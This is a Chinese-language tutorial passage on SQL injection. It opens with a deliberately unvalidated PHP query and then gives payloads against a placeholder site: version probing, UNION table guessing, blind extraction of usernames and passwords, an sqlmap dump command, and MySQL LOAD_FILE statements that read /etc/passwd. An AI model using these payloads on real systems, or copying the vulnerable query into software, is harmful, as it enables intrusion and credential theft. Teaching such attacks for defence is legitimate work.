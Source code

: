 # 注入攻击

> Akamai 在 2019 年研究表明 65.1% 的 Web 应用程序攻击来自 SQL 注入

SQL 注入的两种分类：

1. 盲注：在服务器没有错误回显时完成的注入攻击。

2. Timing Attack：利用 MySQL 的 `BENCHMARK()` 函数。

## 数据库攻击技巧

### 常见攻击技巧

我们假设后台的服务存在这样一个没有校验的语句：

```php
$id = $_GET["id"];
$sql = "select title,description,body from items where id=".$id;
```

SQL 注入时基于数据库的一种攻击。不同的数据库有着不同的功能、不同的语法和函数：

1. SQL 注入可以猜解出数据库的对应版本，比如下面这段 Payload，如果 MySQL 的版本是 4，则会返回 TRUE：

   ```sql
   http://victim.com/index.php?id=5 and substring(@@version, 1, 1)=4
   ```

2. 测试表名 `admin` 是否存在，列名 `passwd` 是否存在：

   ```sql
   http://victim.com/index.php?id=5 union all select 1,2,3 from admin
   
   http://victim.com/index.php?id=5 union all select 1,2,passwd from admin
   ```

3. 想要进一步猜解除 `username` 和 `password` 具体的值，可以通过判断字符的范围读出来：

   ```sql
   http://victim.com/index.php?id=5 and ascii(substring((select concat(username, 0x3a, passwd) from users limit 0,1),1,1))>64
   ....
   ```

   可见利用一个 `sql` 注入的过程非常繁琐，所以非常有必要使用一个自动化的工具来帮助完成整个过程，`sqlmap` 就是一个非常好的自动注入工具：

   ```bash
   python sqlmap.py -u "http://victim.com.index.php?id=5" --dump -T users
   ```

4. 在 MySQL 中，可以通过 `LOAD_FILE()` 读取文件系统，并且通过 `INTO DUMPFILE` 写入本地文件。另外，如果要将文件读出后，再把结果返还给攻击者，可以使用下面的技巧：

   ```sql
   create table potatoes(line BLOB);
   select 1,1,hex(LOAD_FILE('/etc/passwd')),1,1 into DUMPFILE '/tmp/potatoes';
   LOAD DATA INFILE '/tmp/potatoes' into table potatos;
   ```
